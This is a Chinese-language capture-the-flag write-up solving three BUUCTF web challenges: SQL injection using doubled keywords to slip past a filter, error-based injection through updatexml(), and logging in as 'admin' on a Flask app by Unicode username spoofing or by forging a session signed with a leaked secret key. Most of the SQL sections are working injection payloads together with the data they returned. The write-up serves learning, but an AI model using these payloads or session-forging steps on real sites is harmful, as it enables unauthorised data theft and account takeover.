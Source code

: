 # BUUCTF web记录3


## 0x00 [极客大挑战 2019]BabySQL

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BabySQL)

打开题目，还是熟悉的用户名密码注入界面

![image-20210721115109030](image-20210721115109030.png "网站首页")

首先判断闭合类型，用户名随便写，密码栏填个`b'`，发现报错，说明查询语句是单引号闭合。

![image-20210719170507319](image-20210719170507319.png "报错信息1")

然后尝试一下密码`b' or 1=1 #`，发现报错信息中只有`'1=1 #''`。一开始我也不知道是怎么回事，查阅资料之后才知道，原来有的waf会对`or`、`select`等SQL语句关键字做过滤，比如直接替换为空，所以这题要使用[双写绕过](https://blog.csdn.net/m0_51504576/article/details/115832188)。

![image-20210719170705563](image-20210719170705563.png "报错信息2")

试着使用union查询，输入`b' ununionion seselectlect 1,2,3 #`，显示成功登录信息，说明被查询的表的列数为3。

![image-20210721115510406](image-20210721115510406.png "回显信息")

接下来就是套路化的操作，精髓是使用`information_schema`等记录数据库自身信息的数据库，以及`group_concat()`函数。因为看到了2和3的回显，所以把2和3替换为其它表达式可以进行注入。

懒得放截图，直接把回显结果贴一下。

首先查看当前数据库

````sql
b' ununionion seselectlect 1,2,database() #
````

```
Hello 2！
Your password is 'geek'
```

再查看所有数据库

````sql
b' ununionion seselectlect 1,2,group_concat(schema_name)frfromom (infoorrmation_schema.schemata) #
````

```
Hello 2！
Your password is 'information_schema,mysql,performance_schema,test,ctf,geek'
```

看到一个`ctf`库，再去爆这个数据库的表

```sql
b' ununionion seselectlect 1,2,group_concat(table_name)frfromom(infoorrmation_schema.tables) whwhereere table_schema="ctf" #
```

```
Hello 2！
Your password is 'Flag'
```

其中有个`Flag`表，然后再去爆字段

````sql
b' ununionion seselectlect 1,2,group_concat(column_name) frfromom (infoorrmation_schema.columns) whwhereere table_name="Flag"
````

```
Hello 2！
Your password is 'flag'
```

其中有`flag`字段，再去爆数据

```sql
b' ununionion seselectlect 1,2,group_concat(flag)frfromom(ctf.Flag)
```

拿到flag

```
Hello 2！
Your password is 'flag{b11bfeba-d864-4a0a-97f6-77e3ef266da9}'
```

个人感觉，这题的要点在于数据库本身信息数据库的内容，以及`group_concat`的使用，双写绕过其实是个很简单的东西。

### 参考链接：

- [information_schema数据库](https://www.cnblogs.com/kankanhua/p/6484972.html)

-  [group_concat()函数](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)

## 0x01 [极客大挑战 2019]HardSQL

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]HardSQL)

可以试出是单引号闭合，但是空格被过滤了，所以使用报错注入

```
b'or(updatexml(1,concat(0x7e,(select(database())),0x7e),1))#
```

```
XPATH syntax error: '~geek~'
```

找到`geek`数据库，然后又是类似的程序化操作，爆库、爆表、爆字段、爆数据

```sql
#==爆geek数据库中的表==
b'or(updatexml(1,concat(0x7e,(select(group_concat(`table_name`,'@'))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#

#==回显结果==
XPATH syntax error: '~H4rDsq1@~'

#==爆列名==
b'or(updatexml(1,concat(0x7e,(select(group_concat(`column_name`,'@'))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#

#==回显结果==
XPATH syntax error: '~id@,username@,password@~'

#猜测flag内容在password字段里
#==爆password数据==
b'or(updatexml(1,concat(0x7e,(select(left(password,25))from(H4rDsq1)),0x7e),1))#

#==回显结果==
XPATH syntax error: '~flag{feae3b3c-198d-4bce-9~'

#发现只有一半的flag，所以还需要
#==爆破==
b'or(updatexml(1,concat(0x7e,(select(right(password,25))from(H4rDsq1)),0x7e),1))#

#==回显结果==
XPATH syntax error: '~d-4bce-9c93-76903e057e78}~'
```

这题的主要知识点就是利用`updatexml()`和`extractvalue()`函数进行报错注入。使用`concat()`函数，再加上`~`或者`@`等能够引起路径参数报错的字符，将形如`concat(0x7e, 语句, 0x7e)`这样的结果作为参数，就能够得到`XPATH syntax error: '回显结果'`这样的报错信息，实现注入。

### 参考链接：

- [https://blog.csdn.net/Xxy605/article/details/116999699](https://blog.csdn.net/Xxy605/article/details/116999699)
- [SQL报错注入攻击中的updatexml()函数](https://blog.csdn.net/weixin_45738112/article/details/105131866)

## 0x02 [HCTF 2018]admin

[题目链接](https://buuoj.cn/challenges#[HCTF%202018]admin)

这是一道很有趣的题，网站提供了注册、登录、修改密码等功能。

看源码大致可以感觉到，需要你以`admin`身份登录，才能够获取flag，但是`admin`是已经注册过的用户，所以在不知道`admin`密码的情况下无法登录。

![image-20210724184059694](image-20210724184059694.png "源码提示")

查阅一些wp之后，可以得到3种解法。

### 解法1：弱密码

这是很扯的一个解法，可以理解为，机缘巧合，直接试出来了`admin`的密码是`123`🤣，登录拿到flag

### 解法2：unicode欺骗

预期解之一。查看网页源码可以看到该web应用是一个flask应用，源码地址为[https://github.com/woadsl1234/hctf_flask](https://github.com/woadsl1234/hctf_flask)

![image-20210724184719396](image-20210724184719396.png "改密码界面的源码注释提示")

查看源码中的路由逻辑`routes.py`，其中的`login`与`change`路由处理逻辑使用了过时版本twisted框架中的`nodeprep.prepare()`函数，该函数会将`ᴬ`转换为`A`，然后转换为小写的`a`（这个知识点我也不知道获取的渠道是什么）。

```python
@app.route('/login', methods = ['GET', 'POST'])
def login():
    if current_user.is_authenticated:
        return redirect(url_for('index'))

    form = LoginForm()
    if request.method == 'POST':
        name = strlower(form.username.data) //<------就在这里使用了一个自定义的strlower()函数
        session['name'] = name
        user = User.query.filter_by(username=name).first()
        if user is None or not user.check_password(form.password.data):
            flash('Invalid username or password')
            return redirect(url_for('login'))
        login_user(user, remember=form.remember_me.data)
        return redirect(url_for('index'))
    return render_template('login.html', title = 'login', form = form)

...

def strlower(username):
    username = nodeprep.prepare(username)
    return username
```

{{< admonition tip >}}
所以Unicode欺骗的做法就是先注册一个`ᴬDMIN`用户，然后修改密码。在注册与修改密码的过程中username会发生如下转变`ᴬDMIN`->`Admin`->`admin`，所以相当于能够控制`admin`用户的密码，然后就能够以`admin`用户的身份登录，获取flag。
{{< /admonition >}}

### 解法3： 修改flask session

那个web应用是个flask应用，flask是将`session`保存在本地的，并且没有做加密，而是仅仅进行了签名以防篡改，而搜索源代码可以看到其签名使用的密钥为`ckj123`。

```python
import os

class Config(object):
    SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
    SQLALCHEMY_DATABASE_URI = 'mysql+pymysql://root:adsl1234@db:3306/test'
    SQLALCHEMY_TRACK_MODIFICATIONS = True
```

所以，我们可以用burp拦截普通用户登录后查看Index页面的请求，再使用[flask session编解码工具](https://github.com/noraj/flask-session-cookie-manager)解码拦截到的`session`，然后修改其中的用户ID，再重发请求，即可获得flag。

![image-20210726171651090](image-20210726171651090.png "解码")

将`name`改为`admin`，再进行签名。

![image-20210726172004692](image-20210726172004692.png "重新签名")

![image-20210726171919586](image-20210726171919586.png "重发拿到flag")

### 参考链接：

- [https://blog.csdn.net/mochu7777777/article/details/109302175](https://blog.csdn.net/mochu7777777/article/details/109302175)

- [Unicode Character Table](https://unicode-table.com/en/)
- [客户端 session 导致的安全问题](https://www.leavesongs.com/PENETRATION/client-session-security.html)



